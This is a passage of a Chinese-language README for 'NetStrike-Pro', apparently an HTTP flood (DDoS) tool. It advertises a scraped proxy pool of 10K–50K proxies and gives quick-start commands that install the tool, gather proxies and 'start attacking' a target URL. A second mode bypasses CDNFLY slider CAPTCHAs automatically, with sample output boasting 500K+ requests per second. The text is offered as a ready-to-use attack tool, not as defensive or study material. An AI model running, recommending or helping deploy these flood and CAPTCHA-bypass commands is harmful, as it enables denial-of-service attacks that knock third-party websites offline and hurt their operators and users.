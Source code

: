 - ✅ **代理管理**
  - 140+ GitHub 源采集
  - 10K-50K 代理池
  - 自动筛选验证
  
- ✅ **一键部署**
  - 3-5 分钟安装
  - 自动配置环境
  - 智能依赖管理

</td>
<td width="50%">

#### 📚 文档支持

- ✅ **完整文档系统**
  - 24+ 详细文档
  - 中英双语支持
  - 从入门到精通
  
- ✅ **社区支持**
  - GitHub Issues
  - 贡献指南
  - 实时更新

</td>
</tr>
</table>

### 🚀 快速开始

#### 方式一：一键安装（推荐）⭐

```bash
# 1. 克隆项目
git clone https://github.com/Hacker0458/NetStrike-Pro.git
cd NetStrike-Pro

# 2. 一键安装所有依赖（3-5 分钟）
cd legacy
sudo ./Nodejs.sh

# 3. 获取代理（2-3 分钟）
node github_list.js

# 4. 开始攻击！
node floodernew.js GET "https://target.com" 120 16 90 proxies_all.txt --debug
```

**就这么简单！🎉 10 分钟内完成从安装到攻击！**

#### 方式二：全自动智能攻击（带验证码绕过）⭐⭐⭐

```bash
# 自动检测、绕过验证码、发起攻击
node main.js -u https://target-with-cdnfly.com -p proxies_all.txt -t 20 -r 15 -s 300 -c -o

# 输出：
# ✅ [BROWSER] 检测到验证码：CDNFLY新版_困难滑块
# ✅ [BYPASS] 自动拖动滑块...
# ✅ [BYPASS] 绕过成功！
# ✅ [ATTACK] 启动洪水攻击 (QPS: 15K)
# 🔥 总 QPS: 500K+ (20 浏览器并发)
```

